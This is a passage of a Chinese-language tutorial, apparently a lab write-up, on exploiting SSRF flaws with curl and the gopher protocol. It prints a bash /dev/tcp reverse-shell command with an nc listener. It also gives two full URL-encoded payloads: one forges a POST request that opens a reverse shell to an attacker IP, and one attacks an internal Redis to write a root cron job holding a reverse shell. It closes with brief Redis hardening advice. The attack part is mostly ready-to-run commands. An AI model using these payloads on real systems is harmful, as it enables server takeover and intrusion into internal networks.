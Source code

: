 **③ 通过【curl命令】和【gopher协议】对有【SSRF漏洞】的网站远程伪造post请求反弹shell**

反弹shell的一般命令：   
靶机：  `bash -i >& /dev/tcp/192.168.220.140/2333 0>&1`  
攻击者：`nc -lvvp 2333`

![pic1](/assets/ssrf/15.png)

回到SSRF漏洞，利用如下，同样可以反弹shell：

`curl -v 'http://192.168.220.143:8888/zhan/test/ssrf/ssrf_demo.php?url=gopher://192.168.220.139:80/_POST%20/test/ssrf/post.php%20HTTP/1.1%250d%250aHost:%20192.168.220.139%250d%250aUser-Agent:%20curl/7.42.0%250d%250aAccept:%20*/*%250d%250aContent-Type:%20application/x-www-form-urlencoded%250d%250a%250d%250acmd%3Dccccc%250d%250a%250d%250abash%20-i%20%3E%26%20%2fdev%2ftcp%2f192.168.220.140%2f2333%200%3E%261'`

![pic1](/assets/ssrf/16.png)

**④ 通过【curl命令】和【gopher协议】对有【SSRF漏洞】的网站远程攻击内网redis**

参考链接：[利用gopher协议拓展攻击面](https://blog.chaitin.cn/gopher-attack-surfaces/#h2_%E6%94%BB%E5%87%BB%E9%9D%A2%E6%B5%8B%E8%AF%95)  
通过SSRF漏洞结合gopher协议攻击内网redis，可以构造如下命令，即可反弹shell!


`curl -v 'http://192.168.220.143:8888/zhan/test/ssrf/ssrf_demo.php?url=gopher://192.168.220.142:6379/_*1%250d%250a%248%250d%250aflushall%250d%250a%2a3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2464%250d%250a%250d%250a%250a%250a%2a%2f1%20%2a%20%2a%20%2a%20%2a%20bash%20-i%20%3E%26%20%2fdev%2ftcp%2f192.168.220.140%2f5555%200%3E%261%250a%250a%250a%250a%250a%250d%250a%250d%250a%250d%250a%2a4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2fvar%2fspool%2fcron%2f%250d%250a%2a4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2a1%250d%250a%244%250d%250asave%250d%250aquit%250d%250a'`

> redis安全策略:  
1. 开启protected-mode保护模式，配置bind选项，限定可以连接Redis服务器的IP，修改 Redis 的默认端口6379
2. 配置认证，也就是AUTH，设置密码，密码会以明文方式保存在Redis配置文件中
3. 禁止使用root运行redis
